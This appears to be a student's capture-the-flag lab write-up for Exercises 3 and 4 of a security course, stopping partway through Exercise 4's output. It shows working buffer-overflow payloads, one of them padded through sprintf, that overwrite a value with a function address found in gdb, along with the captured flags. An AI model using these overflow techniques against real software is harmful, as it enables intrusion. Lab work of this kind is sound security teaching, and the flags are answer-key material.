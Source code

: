 <div style="page-break-after: always;"></div>

###### Exercise 3

> [!exercise] Exercise 3
> Go to /home/q3/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is very similar to question 2. All we need to do is overwrite the unsigned int with the address of the `secret` function. We attain this by opening the binary inside `gdp` and printing the address.
> 
> ```
> (gdb) print secret
> $1 = {void ()} 0x565561ed \<secret>
> ```
> Now that we have the address, we convert it to little endian format and place it inside our payload (using the same method as question 2)
> 
> ```
> student@hacklabvm:/home/q3$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xed\x61\x55\x56")')
> Jumping to function at 0x565561ed!!
>  _________________________________________
> / csf2024s1_{hiddenly-avitaminoses-diasta \
> \ lsis}                                   /
>  -----------------------------------------
>   \
>    \
>        __     
>       UooU\.'@@@@@@`.
>       \__/(@@@@@@@@@@)
>            (@@@@@@@@)
>            `YY~~~~YY'
>             ||    ||
> ```

###### Exercise 4

> [!exercise]+ Exercise 4
> Go to /home/q4/. Exploit the program to get the secret.
> 
> **Answer:**
> Quite similar to the last question, except our input can only be less than 100 characters. Because `sprintf` is used instead of `strcpy`, we can get around this limitation by padding the input inside this function, rather than through python.
> 
> ```
> "%01024d"
>```
>
>Then we just need to find the address of the `secret` through GDB.
>```
>(gdb) print secret
$1 = {void ()} 0x565561fd \<secret>
>```
>Converting the address to little endian in hexadecimal and combining it all together, we get:
>
>```
>student@hacklabvm:/home/q4$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"%01024d" + b"\xfd\x61\x55\x56")')
>Jumping to function at 0x565561fd!!
> _________________________________________
>/ csf2024s1_{similarities-waftage-pockhou \
>\ se}                                     /